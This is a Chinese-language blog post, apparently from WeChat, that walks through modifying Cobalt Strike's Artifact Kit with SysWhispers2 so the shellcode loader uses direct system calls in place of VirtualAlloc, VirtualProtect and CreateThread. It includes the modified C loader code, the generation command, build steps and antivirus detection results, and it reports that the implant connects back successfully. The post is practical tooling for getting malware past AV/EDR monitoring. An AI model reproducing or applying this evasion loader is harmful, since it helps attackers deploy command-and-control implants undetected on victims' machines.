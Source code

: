 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/2Gui2tVOkG4JIRQe7gMP0A)

接上篇文章，简单分析了 Artifact Kit 的源码后，我们搞清楚了 Cobalt Strike 生成 artifact 的原理，以及 Artifact Kit 用到的一些免杀手法，本篇将结合上篇末尾的参考文章的思路进行实践。Artifact Kit 配合 Syswhispers2 工具实现对 AV/EDR 的部分 API 监控进行绕过，参考文章链接如下所示：

```
https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/
```

SysWhispers 功能
--------------

SysWhispers 通过生成植入程序可以用来进行直接系统调用的头文件 / ASM 文件来帮助规避，支持所有核心的系统调用，这意味着可以不再需要依赖 ntdll.dll 中 API 调用，这些调用通常被 EDR 挂钩。相反，我们可以使用 SysWhispers 生成的标头 / ASM 对直接执行相关的系统调用。首先需要弄清楚的是要替换哪些 API 调用，然后为这些未记录的函数提供参数。

这里我们使用 Artifact Kit 中的 bypass-peek 功能做个举例，创建项目，将 Artifact Kit 文件复制到项目中，然后观察下可以使用系统调用替换的函数。

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwu32CZJ9ib7AySFicBy1VkrAj8jEnS1XOQ93oWTAhYI9icfWaHj4P8hfl8A/640?wx_fmt=jpeg)

  

很快在 patch.c 中可以发现有三个被 AV/EDR 经常监控的 API，VirtualAlloc，VirtualProtect 和 CreateThread 函数，接下来用 SysWhispers 将其替换为系统调用。

```
void spawn(void * buffer, int length, char * key) { DWORD old; /* allocate the memory for our decoded payload */ void * ptr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); int x; for (x = 0; x < length; x++) {  char temp = *((char *)buffer + x) ^ key[x % 4];  *((char *)ptr + x) = temp; }  /* propagate our key function pointers to our payload */ set_key_pointers(ptr);  /* change permissions to allow payload to run */ VirtualProtect(ptr, length, PAGE_EXECUTE_READ, &old);  /* spawn a thread with our data */ CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, ptr, 0, NULL);}
```

SysWhispers 使用方法
----------------

SysWhispers 支持的 API 列表如下所示：

*   NtCreateProcess (CreateProcess)
    
*   NtCreateThreadEx (CreateRemoteThread)
    
*   NtOpenProcess (OpenProcess)
    
*   NtOpenThread (OpenThread)
    
*   NtSuspendProcess
    
*   NtSuspendThread (SuspendThread)
    
*   NtResumeProcess
    
*   NtResumeThread (ResumeThread)
    
*   NtGetContextThread (GetThreadContext)
    
*   NtSetContextThread (SetThreadContext)
    
*   NtClose (CloseHandle)
    
*   NtReadVirtualMemory (ReadProcessMemory)
    
*   NtWriteVirtualMemory (WriteProcessMemory)
    
*   NtAllocateVirtualMemory (VirtualAllocEx)
    
*   NtProtectVirtualMemory (VirtualProtectEx)
    
*   NtFreeVirtualMemory (VirtualFreeEx)
    
*   NtQuerySystemInformation (GetSystemInfo)
    
*   NtQueryDirectoryFile
    
*   NtQueryInformationFile
    
*   NtQueryInformationProcess
    
*   NtQueryInformationThread
    
*   NtCreateSection (CreateFileMapping)
    
*   NtOpenSection
    
*   NtMapViewOfSection
    
*   NtUnmapViewOfSection
    
*   NtAdjustPrivilegesToken (AdjustTokenPrivileges)
    
*   NtDeviceIoControlFile (DeviceIoControl)
    
*   NtQueueApcThread (QueueUserAPC)
    
*   NtWaitForMultipleObjects (WaitForMultipleObjectsEx)
    

把项目 https://github.com/jthuraisamy/SysWhispers2 下载到本地，然后执行命令，

```
python syswhispers.py -f NtProtectVirtualMemory,NtAllocateVirtualMemory,NtCreateThreadEx -o syscalls
```

其中 **-f **表示要用来替换的系统调用函数，参照上面的列表，用逗号隔开，**-o ** 表示输出的文件名称，运行成功后会生成三个文件，需要复制到项目中去。

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwuehWWGZBFotSPocicfSafDoIslk2QAbCYdaTX42diaVCebf8aIBm1Uc8w/640?wx_fmt=jpeg)

  

结合流程
----

1.  将生成的 H/C/ASM 文件复制到项目文件夹中。
    
2.  在 Visual Studio 的解决方案资源管理器中，将 .h 和 .c/.asm 文件分别作为头文件和源文件添加到项目中。
    

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwuxs5bYn87YowcsXzY351ibHrF7NHZVNiceQRQq4AiabmUo8yL9oOdQNq4w/640?wx_fmt=jpeg)

  

3.  在 Visual Studio 中，打开项目 ——> 生成自定义 ，并启用 **masm**。
    

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwuJOThL8eotjXsRwX5Ko6onYgMd5yiaGD4D0mF911icN6Aw70kYQXg1A4Q/640?wx_fmt=jpeg)

  

4.  转到 ASM 文件的属性，并将_项类型_设置为 **Microsoft Macro Assembler**。
    

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwuK2ib1NMzgz63VHKEuZibE5rSA26oibHuLFoykrw6ghbiabj26R25wppYUg/640?wx_fmt=jpeg)

  

5.  SysWhispers2 只支持生成 x64 项目，如果要生成 x86 项目需要使用 mai1zhi2 师傅的 https://github.com/mai1zhi2/SysWhispers2_x86 项目，和 SysWhispers2 的使用方法差不多，把文件导入项目即可。
    

接下来就可以在 patch.c 中替换三个函数了，替换结果如下所示：

```
void spawn(void * buffer, int length, char * key) { HANDLE hProc = GetCurrentProcess(); DWORD oldprotect = 0; PVOID ptr = NULL; HANDLE thandle = NULL;    /* allocate the memory for our decoded payload */ NTSTATUS NTAVM = NtAllocateVirtualMemory(hProc, &ptr, 0, (PSIZE_T)&length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); int x; for (x = 0; x < length; x++) {  char temp = *((char *)buffer + x) ^ key[x % 4];  *((char *)ptr + x) = temp; }  /* propagate our key function pointers to our payload */ set_key_pointers(ptr);  /* change permissions to allow payload to run */ NTSTATUS NTPVM = NtProtectVirtualMemory(hProc, &ptr, (PSIZE_T)&length, PAGE_EXECUTE_READ, &oldprotect);  /* spawn a thread with our data */ NTSTATUS ct = NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, ptr, NULL, FALSE, 0, 0, 0, NULL); WaitForSingleObject(thandle, INFINITE); free(ptr);}
```

然后就可以编译了，编译出来看下导出表，现在任何静态检查导入表的程序都无法得知其如何调用三个 API 了

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwuexQaj93iacOqJnLu9puAvpQFh5VNA6TPnWcSJ15Tw48wLUagWX5RH4w/640?wx_fmt=jpeg)

  

功能测试
----

将程序和目录中的同功能程序做替换，比如上面这个程序需要和 artifact64.exe 做替换，在 Cobalt Strike 中对应的生成操作是生成 64-bit staged artifact，如果要生成 stagless artifact，需要按照 build.sh 的规范，将 DATA_SIZE=271360。为了满足所有 Cobalt Strike 的生成 artifact 方法，按照如上方法创建了 6 个项目，dll 需要创建动态链接库项目，其他和 exe 同理。

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwuZHDeicX0g0ic6F6ic9wwAPCLUiatGPUN3H3pNJPfDiaZiasrRaovALR0e21g/640?wx_fmt=jpeg)

  

编译后，将文件替换加载 cna 脚本进行测试，上传 VT 结果（只是测试，建议测试杀软不要直接上传 VT，挨个虚拟机测试）：

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwuygRnicJovCSVTiaicNGTpxjE4lgAdy4WkqldyLU3rYM7T6t3snbqK33YA/640?wx_fmt=jpeg)

  

正常上线

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdGfeEshXqKL8icibicSwfUBGwucelicDjNIrqxpKdrGPoOggZXJKeynwiavq7YS19zE93otmEJyuzEcOag/640?wx_fmt=jpeg)

还有个问题需要解决，Artifact Kit 的 shellcode 默认使用的是 xor 四字节加密，容易被识别，为了解决这个问题后续需要对 cna 脚本进行修改，还有添加一些新的反调试反 vm 手段。

**文中提到的相关代码已上传至知识星球。**

参考文章和项目
-------

*   https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/
    
*   https://github.com/jthuraisamy/SysWhispers2
    
*   https://github.com/mai1zhi2/SysWhispers2_x86
    

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw25uaZEmwaGKmltLREfSVu5J7C9y8q7qg7GoGW5iapmeHKPoFY74Ha1fA/640?wx_fmt=png)
